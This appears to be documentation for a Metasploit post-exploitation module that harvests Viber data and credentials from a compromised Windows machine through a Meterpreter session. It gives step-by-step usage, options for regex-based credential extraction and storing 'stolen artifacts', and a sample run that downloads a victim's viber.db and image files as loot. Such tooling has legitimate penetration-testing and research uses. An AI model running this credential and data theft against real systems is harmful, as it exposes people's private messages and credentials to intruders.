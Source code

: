 ## Module Description

This post-exploitation module gathers artifacts found on Viber related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/Viber
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_CREDENTIALS
This option is turned on by defalt and will perform the credentials extraction use the predefined regular expression. The 'Store loot' options must be turned on in order for this to take place.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/viber) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Viber's parent folder found
[*] Viber's Viber.db file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\ViberPC\447984845741\viber.db
[*] Viber Viber.db downloaded
[+] File saved to:  /root/.msf4/loot/20210513071138_default_192.168.56.106_viberviber.db_428035.db

[*] Viber's parent folder found
[*] Viber's parent folder found
[*] Viber's *.jpg file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\ViberPC\447984845741\Backgrounds\15\Thumbnails\10000486.jpg
[*] Viber 10000486.jpg downloaded
[+] File saved to:  /root/.msf4/loot/20210513071139_default_192.168.56.106_viber10000486.jp_920388.jpg

[*] Downloading C:\Users\IEUser\AppData\Roaming\ViberPC\447984845741\Backgrounds\15\Thumbnails\10000487.jpg
[*] Viber 10000487.jpg downloaded
[+] File saved to:  /root/.msf4/loot/20210513071139_default_192.168.56.106_viber10000487.jp_576575.jpg


[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```

